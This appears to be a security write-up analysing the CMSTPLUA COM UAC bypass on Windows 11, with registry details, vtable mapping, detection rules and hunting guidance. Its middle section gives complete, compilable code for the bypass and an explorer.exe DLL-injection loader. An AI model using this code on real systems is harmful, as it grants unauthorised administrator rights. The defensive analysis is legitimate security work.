

# UAC Bypass through CMSTPLUA: What the Two DLLs Actually Do


**TL;DR.** `CMSTPLUA` is a COM class Microsoft publishes so that connection-manager UI can elevate itself. It is on the auto-approval list, so asking for an elevated instance through the elevation moniker starts an elevated COM server without a consent prompt. The registered server is `cmstplua.dll`, which is a proxy/stub plus a class factory that forwards to a second class, `CMLUAUTIL`, in `cmlua.dll`. That second DLL holds the actual implementation, and `ShellExec` is vtable slot 9, where it is a thin wrapper over `ShellExecuteExW`. You get an elevated shell by calling one method on one interface. The interesting part is not the call, it is that a medium-integrity process is allowed to make it.


|  |  |
| --- | --- |
| **Component** | `CMSTPLUA`, CLSID `{3E5FC7F9-9A51-4367-9063-A120244FBEC7}` |
| **Registered server** | `C:\Windows\System32\cmstplua.dll` |
| **SHA-256** | `8c3f3c0707ed1895092f01248c1a895f433e6376cb5eadcbe6eb4f502e11a075` |
| **Size** | 40,960 bytes |
| **Version** | `7.2.26100.8457` |
| **Signed** | ✅ `CN=Microsoft Windows, O=Microsoft Corporation` (valid) |
| **Second stage** | `CMLUAUTIL`, CLSID `{3E000D72-A845-4CD9-BD83-80C07C3B881F}` in `cmlua.dll` |
| **SHA-256** | `42fc635ccde06cd2ea618be236d8113b5bfe1ef865d64a30c2e972c6179a5786` |
| **Size** | 65,536 bytes |
| **Build tested** | Windows 11 26100, components at `7.2.26100.8457` |
| **Analysis** | Static only. I read both DLLs and the registry, and did not create the object. |

---

## Why this one is interesting

Most write-ups of this technique stop at the struct and the `CoGetObject` call. That is the part you can copy. The part that explains why it works, and the part that tells you what to hunt for, is underneath: which process ends up hosting the object, which DLL implements which method, and what check Microsoft put in the way.

I had two things I could check that a copy of the public PoC would not have told me:

- The registry on this machine says `InprocServer32` is `cmstplua.dll`, not `cmlua.dll`. Both DLLs are involved, and they are not the same class.
- The vtable in `cmlua.dll` has twenty method slots on this build, not nineteen, and the function that ends up running your command is four lines of `SHELLEXECUTEINFOW` setup.

There is also a correction to make. A lot of notes on this technique say the interface lives in `cmlua.dll` and point IDA at that file, which is right for the implementation but wrong for the registration, and the distinction matters when you write a detection rule or try to work out which process to look at.

## The registry side

Three keys decide whether this works. All of them are readable as a normal user.

### The class

```
HKCR\CLSID\{3E5FC7F9-9A51-4367-9063-A120244FBEC7}
    (default)       = CMSTPLUA
    AppID           = {3E5FC7F9-9A51-4367-9063-A120244FBEC7}
    LocalizedString = @C:\WINDOWS\system32\cmstplua.dll,-100

  \InprocServer32
    (default)       = C:\WINDOWS\System32\cmstplua.dll
    ThreadingModel  = Apartment

  \Elevation
    Enabled         = 1
    Description     = Connection Manager
    IconReference   = @C:\WINDOWS\system32\cmstplua.dll,-101
```

Two things here. `ThreadingModel = Apartment` tells you the object expects a single-threaded apartment. The `Elevation` subkey with `Enabled = 1` is what marks the class as allowed to run elevated at all; without it COM refuses the elevation request regardless of what the client asks for.

### The surrogate

```
HKCR\AppID\{3E5FC7F9-9A51-4367-9063-A120244FBEC7}
    (default)        = CMSTPLUA
    DllSurrogate     =            (present, empty)
    AccessPermission = <binary>
    LaunchPermission = <binary>
```

An empty `DllSurrogate` value means "use the system surrogate", which is `dllhost.exe`. This is the piece that makes an in-process DLL behave like an out-of-process server: COM loads `cmstplua.dll` into a `dllhost.exe` it creates, and every call crosses a process boundary.

That boundary is why the DLL imports from `RPCRT4` at all:

```
RPCRT4.dll: NdrDllGetClassObject, NdrDllCanUnloadNow, NdrOleAllocate, NdrOleFree
ole32.dll:  CoCreateInstance
```

`NdrDll*` is MIDL-generated proxy/stub plumbing. `CoCreateInstance` in a DLL that is supposed to be a COM server looks odd until you read `DllGetClassObject`.

### The approval list

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\UAC\COMAutoApprovalList
```

On this build the key holds 110 values, each a `REG_DWORD` set to `1`, and `{3E5FC7F9-9A51-4367-9063-A120244FBEC7}` is one of them. If a class is in this list, the elevation request skips the consent prompt. If it is not, the same code path shows a UAC dialog and waits for a click, which is not a bypass, it is a prompt.

This is the whole trick, and it is not a bug. Microsoft maintains the list so that components like the connection manager can do privileged work from a normal user session.

## Who implements what

`cmstplua.dll` is small, and its export table says what kind of DLL it is:

```
DllAddRef
DllCanUnloadNow
DllGetClassObject
DllMain
DllRelease
```

The three `Dll*` bookkeeping exports plus `DllGetClassObject` is the minimum for an in-process COM server. But `DllGetClassObject` in this file does something unexpected:

```c
HRESULT DllGetClassObject(REFCLSID rclsid, REFIID riid, void **ppv)
{
    HRESULT hr = NdrDllGetClassObject(rclsid, riid, ppv, &ProxyFileInfo, &psclsid, &factory_buffer);
    if (hr < 0)
        hr = FUN_180001af4(rclsid, riid, ppv);   /* the real class factory */
    return hr < 0 ? hr : S_OK;
}
```

It tries the MIDL proxy/stub factory first and falls back to its own factory. So this one file contains both the marshalling code for `ICMLuaUtil` and a factory for the class.

The factory accepts exactly one CLSID:

```c
/* FUN_180001af4 */
if (rclsid->Data1 != 0x3E5FC7F9 || ...) return CLASS_E_CLASSNOTAVAILABLE;
```

and hands back an object whose `QueryInterface` is the interesting part. Simplified, because the decompiler output handles four IIDs and I only care about two of them here:

```c
/* FUN_180002160, the wrapper's QueryInterface */
if (IsEqualIID(riid, IID_IUnknown))
{
    *ppv = this;  AddRef();  return S_OK;      /* no gate on this one */
}

if (IsEqualIID(riid, IID_ICMLuaUtil))
{
    if (!IsElevated())                          /* LocalSystem or Administrators */
        return E_ACCESSDENIED;                  /* 0x80070005 */

    if (this->inner == NULL)
        CoCreateInstance(&CLSID_CMLUAUTIL, NULL,
                         CLSCTX_INPROC_SERVER | CLSCTX_LOCAL_SERVER,
                         &IID_ICMLuaUtil, &this->inner);

    *ppv = this->inner;
    AddRef();
    return S_OK;
}

*ppv = NULL;  return E_NOINTERFACE;             /* 0x80004002 */
```

The two codes are worth keeping apart: an IID it does not know gives `E_NOINTERFACE`, and an IID it knows but will not hand out unelevated gives `E_ACCESSDENIED`.

The object you get from `CMSTPLUA` is a wrapper. The real work is forwarded to `CoCreateInstance` on `{3E000D72-A845-4CD9-BD83-80C07C3B881F}`, which is registered as `CMLUAUTIL`:

```
HKCR\CLSID\{3E000D72-A845-4CD9-BD83-80C07C3B881F}
    (default) = CMLUAUTIL
    \InProcServer32
        (default) = C:\WINDOWS\System32\cmlua.dll
        ThreadingModel = Apartment
    \Elevation
        Enabled = 1
```

Same `DllSurrogate` AppID treatment and the same `Elevation` flag. The factory passes `CLSCTX_INPROC_SERVER | CLSCTX_LOCAL_SERVER`, so whether `cmlua.dll` is loaded into the surrogate that already hosts `cmstplua.dll` or into a second one is up to COM's activation rules. I could not settle that without running it, and it does not change anything on the client side.



## The elevation gate

Both DLLs run the same check before they hand out `ICMLuaUtil`. In `cmlua.dll` it is `FUN_180004a30`:

```c
bool IsElevated(void)
{
    SID_IDENTIFIER_AUTHORITY nt = { 0, 0, 0, 0, 0, 5 };
    /* first: S-1-5-18, LocalSystem */
    if (CheckTokenMembership(NULL, &local_system_sid, &is_member) && is_member)
        return true;
    return IsAdministrator();      /* S-1-5-32-544 */
}
```

The second half builds the `Administrators` SID with `AllocateAndInitializeSid(&nt, 2, SECURITY_BUILTIN_DOMAIN_RID, DOMAIN_ALIAS_RID_ADMINS, ...)`. `CheckTokenMembership` on a filtered UAC token reports `Administrators` as deny-only, so this returns false; inside the surrogate, where the token is unfiltered, it returns true.

That is the reason the check exists. It is not checking who you are, it is checking that the server itself is running with a full token before it exposes a method that calls `ShellExecuteExW`. Both DLLs report the same two failures, which makes a client easy to debug: an IID the class does not implement gives `E_NOINTERFACE` (`0x80004002`), and an IID it does implement but the token check rejected gives `E_ACCESSDENIED` (`0x80070005`). If you get the second one from the first hop, the surrogate did not come up elevated and nothing further down will work.

## Finding ShellExec in the vtable

`cmlua.dll` has one large run of code pointers in `.rdata`. Walking it is enough to map the interface:

```
vtable at 0x1800070a8, 24 slots
  [ 0] +0x00  0x180003ad0    QueryInterface
  [ 1] +0x08  0x180002180    AddRef
  [ 2] +0x10  0x180003c00    Release
  [ 3] +0x18  0x180003ed0    SetRasCredentials
  [ 4] +0x20  0x180004000    SetRasEntryProperties
  [ 5] +0x28  0x1800033a0    DeleteRasEntry
  [ 6] +0x30  0x1800038f0    LaunchInfSection
  [ 7] +0x38  0x180003920    LaunchInfSectionEx
  [ 8] +0x40  0x180002c20    CreateLayerDirectory
  [ 9] +0x48  0x180004390    ShellExec
  [10] +0x50  0x1800042e0    SetRegistryStringValue
  [11] +0x58  0x180003700    DeleteRegistryStringValue
  [12] +0x60  0x180003570    DeleteRegKeysWithoutSubKeys
  [13] +0x68  0x1800035b0    DeleteRegTree
  [14] +0x70  0x1800037a0    ExitWindowsFunc
  [15] +0x78  0x180002360    AllowAccessToWorld
  [16] +0x80  0x180002ae0    CreateFileAndClose
  [17] +0x88  0x180002d90    DeleteHiddenCmProfileFiles
  [18] +0x90  0x180002600    CallCustomActionDll
  [19] +0x98  0x180003c90    RunCustomActionExe
  [20] +0xa0  0x180004170    SetRasSubEntryProperties
  [21] +0xa8  0x180003480    DeleteRasSubEntry
  [22] +0xb0  0x180003da0    SetCustomAuthData
  [23] +0xb8  0x180002140    scalar deleting destructor
```

Slot 23 is the destructor: `Release` at slot 2 calls `*(vtable + 0xB8)` when the count reaches zero, which is why that entry sits where it does. So the interface itself is twenty methods, slots 3 through 22.

The name attached to each slot in that table is not a guess. Most of those functions carry a format string with their own name in it, because the DLL logs its failures:

```
"LoadLibrary failed in SetRasCredentials. GLE = %#x"
"LoadLibrary failed in LaunchProfile. GLE = %#x"
"RunAsExe() ShellExecuteExW() of %s %s GLE=%u."
"RunAsDll() LoadLibrary(%s) failed, GLE=%u."
```

`DeleteRasSubEntry` at slot 21 is the one that notes written against older builds miss. They list nineteen methods, ending at `SetRasSubEntryProperties` then `SetCustomAuthData`; this build has `DeleteRasSubEntry` in between them. Declaring nineteen slots in your header and calling `ShellExec` still works, because the call only depends on slot 9, but if you ever call anything past slot 20 with a struct written for the older build you will jump into the wrong function.

### ShellExec itself

```c
/* 0x180004390, vtable slot 9 */
HRESULT ShellExec(LPCWSTR lpFile, LPCWSTR lpParameters, LPCWSTR lpDirectory,
                  ULONG fMask, int nShow)
{
    SHELLEXECUTEINFOW info;
    memset(&info, 0, sizeof(info));
    info.cbSize       = sizeof(info);      /* 0x70 */
    info.fMask        = fMask;
    info.nShow        = nShow;
    info.lpFile       = lpFile;
    info.lpParameters = lpParameters;
    info.lpDirectory  = lpDirectory;

    if (!ShellExecuteExW(&info))
    {
        DWORD err = GetLastError();
        return HRESULT_FROM_WIN32(err);
    }
    if (info.hProcess != NULL)
    {
        WaitForSingleObject(info.hProcess, 60000);
        CloseHandle(info.hProcess);
    }
    return S_OK;
}
```

Five parameters, no quoting rules, no validation of `lpFile` beyond what `ShellExecuteExW` does. The server waits up to sixty seconds for the child if you asked for a process handle by setting `SEE_MASK_NOCLOSEPROCESS` in `fMask`; with the default mask `hProcess` is null and it returns straight away.

The other methods in the table are the reason this class needs elevation in the first place: `DeleteRegTree` walks a registry tree and deletes it, `ExitWindowsFunc` enables `SeShutdownPrivilege` and calls `InitiateSystemShutdownW`, `CreateFileAndClose` opens an arbitrary path. That is connection-manager work, and it is fine as long as the caller really has the token it claims to have. `ShellExec` just happens to be the most useful one if you do not.

## The elevation moniker

`CoCreateInstance` cannot elevate. The client has to go through the elevation moniker, which asks the COM elevator in `AppInfo` to start the server with a full token.

Microsoft's own implementation is in `cmlua.dll`, exported as `_GetCoCreateInstanceAsAdminHandle`:

```c
/* 0x180001c10 */
DWORD GetCoCreateInstanceAsAdminHandle(HWND hwnd, LPCWSTR friendly_name,
                                       GUID *clsid, IID *iid, void **ppv)
{
    OLECHAR guid[50];
    WCHAR moniker[300];
    BIND_OPTS3 bo = {0};

    if (StringFromGUID2(clsid, guid, 50) == 0)
        return E_OUTOFMEMORY;

    StringCchPrintfW(moniker, 300, L"Elevation:Administrator!new:%s", guid);

    bo.cbStruct       = 0x30;            /* sizeof(BIND_OPTS3) */
    bo.dwClassContext = CLSCTX_LOCAL_SERVER;
    bo.hwnd           = hwnd;

    return CoGetObject(moniker, (BIND_OPTS *)&bo, iid, ppv);
}
```

`cbStruct = 0x30` is not arbitrary. `BIND_OPTS3` is six `DWORD`s, an `LCID`, a `COSERVERINFO*` and an `HWND`, which is 48 bytes on x64, and `hwnd` lands at offset `0x28`. A client that passes `sizeof(BIND_OPTS)` here gets `CO_E_BAD_PATH` or worse depending on the shell version, which is one of the reasons hand-rolled PoCs fail on some builds.

That function is the reference. If your client sets the same three fields and uses `CLSCTX_LOCAL_SERVER`, you get the same object the connection manager gets.

## The client


The code below elevates a process. Run it only on a machine you own, and expect `cmd.exe` to come up with an administrator token. It is here because reading the call is easier than reading a description of the call.


The struct first. The slot count matters, so I have kept all twenty methods and put the name each one resolves to in a comment. Only `ShellExec` needs a real signature to be useful.

```cpp
// cmstplua_client.cpp
// cl /LD /EHsc /DUNICODE /D_UNICODE cmstplua_client.cpp ole32.lib oleaut32.lib

#include <windows.h>
#include <objbase.h>
#include <shellapi.h>
#include <strsafe.h>

static const CLSID k_clsidCmstplua =
    { 0x3E5FC7F9, 0x9A51, 0x4367, { 0x90, 0x63, 0xA1, 0x20, 0x24, 0x4F, 0xBE, 0xC7 } };

struct __declspec(uuid("6EDD6D74-C007-4E75-B76A-E5740995E24C")) ICMLuaUtil : public IUnknown
{
    virtual HRESULT STDMETHODCALLTYPE SetRasCredentials()            = 0;  // slot 3
    virtual HRESULT STDMETHODCALLTYPE SetRasEntryProperties()        = 0;  // slot 4
    virtual HRESULT STDMETHODCALLTYPE DeleteRasEntry()               = 0;  // slot 5
    virtual HRESULT STDMETHODCALLTYPE LaunchInfSection()             = 0;  // slot 6
    virtual HRESULT STDMETHODCALLTYPE LaunchInfSectionEx()           = 0;  // slot 7
    virtual HRESULT STDMETHODCALLTYPE CreateLayerDirectory()         = 0;  // slot 8

    virtual HRESULT STDMETHODCALLTYPE ShellExec(
        LPCWSTR lpFile,
        LPCWSTR lpParameters,
        LPCWSTR lpDirectory,
        ULONG   fMask,
        int     nShow)                                               = 0;  // slot 9

    virtual HRESULT STDMETHODCALLTYPE SetRegistryStringValue()       = 0;  // slot 10
    virtual HRESULT STDMETHODCALLTYPE DeleteRegistryStringValue()    = 0;  // slot 11
    virtual HRESULT STDMETHODCALLTYPE DeleteRegKeysWithoutSubKeys()  = 0;  // slot 12
    virtual HRESULT STDMETHODCALLTYPE DeleteRegTree()                = 0;  // slot 13
    virtual HRESULT STDMETHODCALLTYPE ExitWindowsFunc()              = 0;  // slot 14
    virtual HRESULT STDMETHODCALLTYPE AllowAccessToWorld()           = 0;  // slot 15
    virtual HRESULT STDMETHODCALLTYPE CreateFileAndClose()           = 0;  // slot 16
    virtual HRESULT STDMETHODCALLTYPE DeleteHiddenCmProfileFiles()   = 0;  // slot 17
    virtual HRESULT STDMETHODCALLTYPE CallCustomActionDll()          = 0;  // slot 18
    virtual HRESULT STDMETHODCALLTYPE RunCustomActionExe()           = 0;  // slot 19
    virtual HRESULT STDMETHODCALLTYPE SetRasSubEntryProperties()     = 0;  // slot 20
    virtual HRESULT STDMETHODCALLTYPE DeleteRasSubEntry()            = 0;  // slot 21
    virtual HRESULT STDMETHODCALLTYPE SetCustomAuthData()            = 0;  // slot 22
};

static HRESULT RunElevated(LPCWSTR file, LPCWSTR args, LPCWSTR dir, int show)
{
    OLECHAR guid[64];
    WCHAR   moniker[128];

    if (StringFromGUID2(k_clsidCmstplua, guid, ARRAYSIZE(guid)) == 0)
        return E_OUTOFMEMORY;

    HRESULT hr = StringCchPrintfW(moniker, ARRAYSIZE(moniker),
                                  L"Elevation:Administrator!new:%s", guid);
    if (FAILED(hr))
        return hr;

    BIND_OPTS3 bo = {};
    bo.cbStruct       = sizeof(bo);          // 0x30 on x64
    bo.dwClassContext = CLSCTX_LOCAL_SERVER;
    bo.hwnd           = NULL;

    ICMLuaUtil *util = NULL;
    hr = CoGetObject(moniker, reinterpret_cast<BIND_OPTS *>(&bo),
                     __uuidof(ICMLuaUtil), reinterpret_cast<void **>(&util));
    if (FAILED(hr) || util == NULL)
        return hr;

    hr = util->ShellExec(file, args, dir, SEE_MASK_DEFAULT, show);
    util->Release();
    return hr;
}

static DWORD WINAPI Worker(LPVOID)
{
    HRESULT hr = CoInitializeEx(NULL, COINIT_APARTMENTTHREADED);
    if (SUCCEEDED(hr))
    {
        HRESULT run = RunElevated(L"C:\\Windows\\System32\\cmd.exe", NULL, NULL, SW_SHOW);
        if (FAILED(run))
            MessageBoxW(NULL, L"elevation failed", L"cmstplua", MB_ICONERROR);
        CoUninitialize();
    }
    return 0;
}

BOOL APIENTRY DllMain(HMODULE module, DWORD reason, LPVOID)
{
    if (reason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(module);
        HANDLE thread = CreateThread(NULL, 0, Worker, NULL, 0, NULL);
        if (thread)
            CloseHandle(thread);
    }
    return TRUE;
}
```

And the loader that puts it into a medium-integrity process:

```cpp
// loader.cpp
// cl /EHsc /DUNICODE /D_UNICODE loader.cpp

#include <windows.h>
#include <tlhelp32.h>
#include <cstdio>

static DWORD FindProcess(const wchar_t *name)
{
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snap == INVALID_HANDLE_VALUE)
        return 0;

    PROCESSENTRY32W entry = { sizeof(entry) };
    DWORD pid = 0;

    if (Process32FirstW(snap, &entry))
    {
        do
        {
            if (_wcsicmp(entry.szExeFile, name) == 0)
            {
                pid = entry.th32ProcessID;
                break;
            }
        } while (Process32NextW(snap, &entry));
    }

    CloseHandle(snap);
    return pid;
}

int wmain(int argc, wchar_t **argv)
{
    if (argc != 2)
    {
        wprintf(L"usage: %s <full path to cmstplua_client.dll>\n", argv[0]);
        return 2;
    }

    WCHAR dll[MAX_PATH];
    if (GetFullPathNameW(argv[1], ARRAYSIZE(dll), dll, NULL) == 0)
        return 3;

    DWORD pid = FindProcess(L"explorer.exe");
    if (pid == 0)
    {
        wprintf(L"explorer.exe not found\n");
        return 4;
    }

    HANDLE proc = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION |
                              PROCESS_VM_WRITE | PROCESS_QUERY_INFORMATION,
                              FALSE, pid);
    if (proc == NULL)
    {
        wprintf(L"OpenProcess failed: %lu\n", GetLastError());
        return 5;
    }

    SIZE_T size = (wcslen(dll) + 1) * sizeof(WCHAR);
    LPVOID remote = VirtualAllocEx(proc, NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (remote == NULL || !WriteProcessMemory(proc, remote, dll, size, NULL))
    {
        wprintf(L"write failed: %lu\n", GetLastError());
        return 6;
    }

    LPTHREAD_START_ROUTINE load =
        reinterpret_cast<LPTHREAD_START_ROUTINE>(
            GetProcAddress(GetModuleHandleW(L"kernel32.dll"), "LoadLibraryW"));

    HANDLE thread = CreateRemoteThread(proc, NULL, 0, load, remote, 0, NULL);
    if (thread == NULL)
    {
        wprintf(L"CreateRemoteThread failed: %lu\n", GetLastError());
        return 7;
    }

    WaitForSingleObject(thread, 10000);
    wprintf(L"thread finished in pid %lu\n", pid);

    CloseHandle(thread);
    CloseHandle(proc);
    return 0;
}
```

## The injection step is optional

The loader above is what the public PoC does, and it is worth being clear that it adds nothing to the elevation. `CoGetObject` works from any medium-integrity process, so a plain console EXE that calls `RunElevated` directly produces the same result with fewer moving parts.

What an analyst looks at is the parent of the elevated child. In both variants that parent is `dllhost.exe`, because `ShellExecuteExW` runs inside the surrogate, not in your process. Injecting into `explorer.exe` does not change that pair, it only adds a `CreateRemoteThread` into `explorer.exe` for the EDR to log. If the injection exists it is for delivery or for blending in with a loader, not for the privilege escalation.

One detail that does matter: the injected thread runs in session 1 with the interactive user's token, which is exactly what the moniker wants. A service in session 0 calling this gets a session 0 `cmd.exe` and no desktop, which is a common reason a copy of the PoC appears not to work.

## IOC

There is no network indicator in this technique. What is left is host state, and almost all of it is normal Windows.

### Registry

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\UAC\COMAutoApprovalList
  {3E5FC7F9-9A51-4367-9063-A120244FBEC7} = 1

HKCR\CLSID\{3E5FC7F9-9A51-4367-9063-A120244FBEC7}\Elevation\Enabled = 1
HKCR\CLSID\{3E000D72-A845-4CD9-BD83-80C07C3B881F}\Elevation\Enabled = 1
```

### Host

```
C:\Windows\System32\cmstplua.dll
C:\Windows\System32\cmlua.dll
```

### Process

```
dllhost.exe /Processid:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}
dllhost.exe /Processid:{3E000D72-A845-4CD9-BD83-80C07C3B881F}   (only if CMLUAUTIL is activated as a local server)
```

### File

```
SHA-256  8c3f3c0707ed1895092f01248c1a895f433e6376cb5eadcbe6eb4f502e11a075  cmstplua.dll
SHA-256  42fc635ccde06cd2ea618be236d8113b5bfe1ef865d64a30c2e972c6179a5786  cmlua.dll
```

## Detection

You cannot write a file rule for this. Both DLLs are signed by Microsoft and ship with the OS, so anything that matches them matches every Windows 11 machine you own. The only thing worth putting in front of a scanner is a compiled client, and even that is a judgement call rather than a verdict.

### YARA

[`detections/uac_cmstplua_loader.yar`](../detections/uac_cmstplua_loader.yar) looks for the two GUIDs and the moniker prefix in one PE:

```yara
rule T1548_002_ElevationMoniker_CMSTPLUA_Client
{
    strings:
        $clsid = { F9 C7 5F 3E 51 9A 67 43 90 63 A1 20 24 4F BE C7 }
        $iid   = { 74 6D DD 6E 07 C0 75 4E B7 6A E5 74 09 95 E2 4C }
        $mon_a = "Elevation:Administrator!new:" ascii
        $mon_w = "Elevation:Administrator!new:" wide

    condition:
        uint16(0) == 0x5A4D and
        $clsid and $iid and 1 of ($mon_*)
}
```

I checked the GUID byte layouts against the two Microsoft DLLs, where both exist as raw `GUID` structures in `.rdata`:

| File | `$clsid` | `$iid` | moniker | rule fires |
| --- | --- | --- | --- | --- |
| `cmstplua.dll` | `0x4970` | `0x4E98` | absent | no |
| `cmlua.dll` | absent | `0x83C0` | `0x8A10` | no |

`cmlua.dll` having the moniker string is not a coincidence: it is the file that exports `_GetCoCreateInstanceAsAdminHandle`, so its own helper builds the same string. Neither file has all three, which is why the rule does not fire on the operating system.

What I could not do is test it against a real compiled loader, because I do not have one. Treat a hit as a file to look at, not a file to delete. Installers and connection-manager tooling use the same three ingredients.

### Hunting

| Source | What to look for |
| --- | --- |
| Sysmon EID 1 | an elevated `cmd.exe`, `powershell.exe` or `rundll32.exe` whose `ParentImage` is `dllhost.exe` |
| Sysmon EID 1 | `dllhost.exe` started with `/Processid:{3E5FC7F9-...}` outside an install or a VPN connection |
| Sysmon EID 8 | `CreateRemoteThread` into `explorer.exe`, if the loader uses injection |
| EDR COM telemetry | `CoGetObject` on a name beginning `Elevation:Administrator!new:` from a non-installer process |
| Sysmon EID 11 | a newly written DLL in a user-writable directory followed by a thread into `explorer.exe` or `svchost.exe` |
| Sysmon EID 13 | writes to `COMAutoApprovalList` (should never happen; that key is not user-maintained) |

The first row is the one to keep. `dllhost.exe` as the parent of an elevated console is rare enough to alert on, and it catches every variant of this technique regardless of which CLSID is used, because the parent is always the surrogate.

## MITRE ATT&CK

| Technique | ID | Evidence |
| --- | --- | --- |
| Abuse Elevation Control Mechanism: Bypass User Account Control | [T1548.002](https://attack.mitre.org/techniques/T1548/002/) | Auto-approved CLSID `{3E5FC7F9-...}` reaches an elevated surrogate with no consent prompt |
| Inter-Process Communication: Component Object Model | [T1559.001](https://attack.mitre.org/techniques/T1559/001/) | `CoGetObject` plus `ShellExec` on `ICMLuaUtil` |
| Process Injection | [T1055](https://attack.mitre.org/techniques/T1055/) | Only in the delivery variant above, which injects into `explorer.exe`. The elevation does not need it. |

**Not observed:** T1068 (a real privilege-escalation vulnerability), T1134 (token manipulation, the token is issued by the OS, not stolen), T1053 (scheduled task), T1543 (service creation), T1547 (autostart).

## Limitations

1. **I did not run it.** Everything here comes from the two DLLs and the registry on one machine. I did not create the object, so I have not watched the surrogate appear or the child process inherit the token. The sixty second wait in `ShellExec` and both refusal paths are read from the code.
2. **One build only**, Windows 11 26100 with components at `7.2.26100.8457`. Method counts and vtable addresses will differ on other builds, and the auto-approval list is a policy file that Microsoft has changed before. On a build where `{3E5FC7F9-...}` is absent, the same client gets a consent dialog instead of a shell.
3. **Method semantics beyond `ShellExec` are inferred** from the API each function calls and the name in its own log string. I did not decode every argument list, which is why the struct above declares them with no parameters.
4. **The proxy/stub layer is not analysed.** I read `DllGetClassObject` and saw the MIDL imports, but I did not decode the format strings that make up the marshalling. That the interface survives a process boundary is inferred from the surrogate registration, not traced, and I could not determine whether both DLLs land in one `dllhost.exe` or in two.
5. **The YARA rule has never seen a real loader.** The GUID bytes are verified, the condition is not.
6. **Whether `dllhost.exe` is the parent of the child depends on the shell**, and I am reporting what `ShellExecuteExW` inside a surrogate does, not what I captured. If you want certainty for your own environment, run it once in a VM and look at the process tree.

## Closing

The reason this technique keeps working is that the primitive is a documented feature: a class factory in a signed DLL, on a list Microsoft maintains, doing exactly what it was written to do. There is no memory corruption to patch and no missing check, only a COM object that will run a program for you if you ask in the right syntax.

That shapes the defence. Blocking the CLSID by deleting registry keys breaks the connection manager, and the list gets restored. Watching for a file is pointless because the file is `cmlua.dll`. What is left is behaviour, and the most stable behaviour is not the COM call at all, it is the shape of the process tree afterwards: an elevated console with `dllhost.exe` for a parent, on a machine where nobody just installed anything.

---

## Appendix A: vtable and factory layout

`cmlua.dll`, image base `0x180000000`.

| Address | File offset | What lives there |
| --- | --- | --- |
| `0x1800070A8` | `0x50A8` | `CCMLuaUtil` vtable, 24 slots, ends at `0x180007168` |
| `0x1800070F0` | `0x50F0` | slot 9, `ShellExec` (the call is `vtable + 0x48`) |
| `0x180007168` | `0x5168` | `CClassFactory` vtable, 5 slots |
| `0x180007190` | `0x5190` | MIDL proxy file list handed to `NdrDllGetClassObject` |
| `0x180004390` | `0x8390` | `ShellExec`, calls `ShellExecuteExW` |
| `0x180004a30` | `0x8A30` | elevated-token check, LocalSystem then Administrators |
| `0x180002548` | `0x6548` | class factory for `{3E000D72-A845-4CD9-BD83-80C07C3B881F}` |

`cmstplua.dll`, same image base:

| Address | What lives there |
| --- | --- |
| `0x1800019a0` | `DllGetClassObject`, MIDL factory then its own |
| `0x180001af4` | class factory for `{3E5FC7F9-9A51-4367-9063-A120244FBEC7}` |
| `0x180002160` | `QueryInterface` that forwards to `CoCreateInstance(CMLUAUTIL)` |
| `0x180002358` | the same elevated-token check |
| `0x180004950` | `{6EF07F29-F9B8-4DA4-B59E-13DEA060AD60}`, the proxy/stub CLSID handed to `NdrDllGetClassObject`; the wrapper's `QueryInterface` also accepts it, and `{AE8AFD54-5B57-4961-8A9B-12ADF23B696A}` at `0x180004960` |
| `0x180004970` | `CLSID_CMSTPLUA` |
| `0x180004e88` | `CLSID_CMLUAUTIL`, passed to `CoCreateInstance` |
| `0x180004e98` | `IID_ICMLuaUtil` |

## Appendix B: walking any vtable

```python
import struct, sys

path, base, count = sys.argv[1], int(sys.argv[2], 16), int(sys.argv[3])
data = open(path, "rb").read()

pe = struct.unpack_from("<I", data, 0x3C)[0]
nsec = struct.unpack_from("<H", data, pe + 6)[0]
optsz = struct.unpack_from("<H", data, pe + 20)[0]
opt = pe + 24
image = struct.unpack_from("<Q", data, opt + 24)[0]

sections, off = [], opt + optsz
for _ in range(nsec):
    name, vsize, va, raw, ptr = struct.unpack_from("<8sIIII", data, off)
    sections.append((image + va, vsize, ptr, raw))
    off += 40

def to_offset(va):
    for start, vsize, ptr, raw in sections:
        if start <= va < start + max(vsize, raw):
            return ptr + (va - start)
    raise SystemExit(f"{va:#x} is not mapped")

for slot in range(count):
    target = struct.unpack_from("<Q", data, to_offset(base + slot * 8))[0]
    print(f"  [{slot:2d}] +{slot * 8:#04x}  {target:#x}")
```

```
python vtable_walk.py C:\Windows\System32\cmlua.dll 0x1800070a8 24
```

The same walk on a copy of `cmstplua.dll` starts at `0x1800040A8` and is shorter, because most of what that DLL hands out is forwarded rather than implemented.
